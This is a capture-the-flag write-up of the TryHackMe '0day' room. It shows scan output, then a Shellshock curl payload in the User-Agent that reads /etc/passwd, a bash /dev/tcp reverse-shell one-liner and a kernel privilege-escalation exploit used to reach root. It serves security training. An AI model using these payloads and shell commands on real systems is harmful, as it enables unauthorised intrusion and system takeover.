 ```yaml
---
title: "TryHackMe - 0day"
author: Nasrallah
description: ""
date: 2022-10-11 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, nikto, cve]
img_path: /assets/img/tryhackme/0day
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [0day](https://tryhackme.com/room/0day) from [TryHackMe](https://tryhackme.com). We exploit a shell shock vulnerability and get a reverse shell on the target, then we exploit an oudated kernel version to get root. 

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.220.92
Host is up (0.092s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports on a Ubuntu machine, first one is port 22 running OpenSSH 6.6.1p1, the other port is 80 running an Apache web server version 2.4.7.

## Web

Let's navigate to the webpage.

![](1.png)

Found some information about Ryan Montgomery with some social media accounts of his.

## Gobuster

Let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.220.92/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/23 04:23:16 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 288]
/.htpasswd            (Status: 403) [Size: 288]
/admin                (Status: 301) [Size: 311] [--> http://10.10.220.92/admin/]
/backup               (Status: 301) [Size: 312] [--> http://10.10.220.92/backup/]
/cgi-bin              (Status: 301) [Size: 313] [--> http://10.10.220.92/cgi-bin/]
/cgi-bin/             (Status: 403) [Size: 287]                                   
/css                  (Status: 301) [Size: 309] [--> http://10.10.220.92/css/]    
/img                  (Status: 301) [Size: 309] [--> http://10.10.220.92/img/]    
/js                   (Status: 301) [Size: 308] [--> http://10.10.220.92/js/]     
/robots.txt           (Status: 200) [Size: 38]                                    
/secret               (Status: 301) [Size: 312] [--> http://10.10.220.92/secret/] 
/server-status        (Status: 403) [Size: 292]                                   
/uploads              (Status: 301) [Size: 313] [--> http://10.10.220.92/uploads/]
===============================================================
```

We found a couple of directories that we can't access and robots.txt doesn't help us that much.

## Nikto

Let's run a Nikto scan.

```terminal
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.220.92
+ Target Hostname:    10.10.220.92
+ Target Port:        80
+ Start Time:         2022-08-23 04:45:26 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /backup/: This might be interesting...
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3092: /cgi-bin/test.cgi: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ /admin/index.html: Admin login page/section found.
+ 8699 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2022-08-23 04:59:54 (GMT-4) (868 seconds)
---------------------------------------------------------------------------
```

Nikto found a shellshock vulnerability in `/cgi-bin/test.cgi`.

# **Foothold**

To exploit this vulnerability, we need to make a get request to `/cgi-bin/test.cgi` with the following user-agent: `() { :;}; echo; command`.

We can do that using `curl`.

```bash
$ curl -A "() { :;}; echo; /bin/cat /etc/passwd" http://10.10.94.235/cgi-bin/test.cgi
```

```terminal
$ curl -A "() { :;}; echo; /bin/cat /etc/passwd" http://10.10.94.235/cgi-bin/test.cgi
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
ryan:x:1000:1000:Ubuntu 14.04.1,,,:/home/ryan:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin

```

We got command execution on the target and found user named ryan.

Looking through the directories and files of the web server we find the following.

![](3.png)

Got a private ssh key that probably belongs to `ryan`.

Couldn't connect with the ssh key, so i just got a reverse shell with the following command:

```bash
/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

![](2.png)

# **Privilege Escalation**

After stabilizing the shell with python pty, we run the command `uname -a` to find this

```terminal
www-data@ubuntu:/usr/lib/cgi-bin$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

The kernel look outdated. Searching for exploits in this version we find [this](https://www.exploit-db.com/exploits/37292).

Let's upload the exploit to the target, compile it and run it.

![](4.png)

We encountered a problem of `gcc` not being able to find `cc1`, we solved that by changing the PATH variable with the following:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

>Credits to `muirlandoracle`, check his [writeup](https://muirlandoracle.co.uk/2020/09/03/0day-writeup/).

And just like that we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
